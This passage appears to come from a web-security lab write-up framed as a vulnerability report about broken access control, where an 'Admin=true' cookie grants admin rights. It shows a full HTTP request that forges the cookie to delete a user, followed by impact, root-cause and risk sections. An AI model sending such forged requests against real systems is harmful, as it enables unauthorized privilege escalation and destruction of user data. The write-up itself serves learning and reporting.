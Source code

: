 **Request to delete user (with forged cookie):**
```
GET /admin/delete?username=carlos HTTP/2
Host: 0ac600f103d7739a815ea7a7003900ab.web-security-academy.net
Cookie: Admin=true; session=FfNmnzQLuQICG5mJl28i8UAKuv4YDTOm
Sec-Ch-Ua: "Not=A?Brand";v="24", "Chromium";v="140"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac600f103d7739a815ea7a7003900ab.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

---

## Observed impact

* Low-privileged user can escalate to admin and perform destructive actions (delete accounts).  
* Compromises integrity and availability of user data.  
* Potential for further escalation: delete multiple users, modify configurations, or extract sensitive data via admin functions.  
* Affects all authenticated users who can forge the cookie.

---

## Root cause analysis

* **Primary cause:** User role is determined by a client-modifiable cookie (`Admin=true/false`) without server-side verification against the session or user database.  
* **Secondary cause / contributing factor:** Lack of proper authorization checks on admin endpoints; assumes cookie integrity.

---

## Risk assessment

* **Likelihood:** High — any authenticated user can modify cookies using browser tools or proxies like Burp Suite.  
* **Impact:** High — full admin access leads to account deletions and potential data loss.  
* **Overall risk:** High.  
  Optionally map to CVSS: Preliminary estimate in the **High** range (e.g., CVSS base score ~7–8) due to easy privilege escalation.

---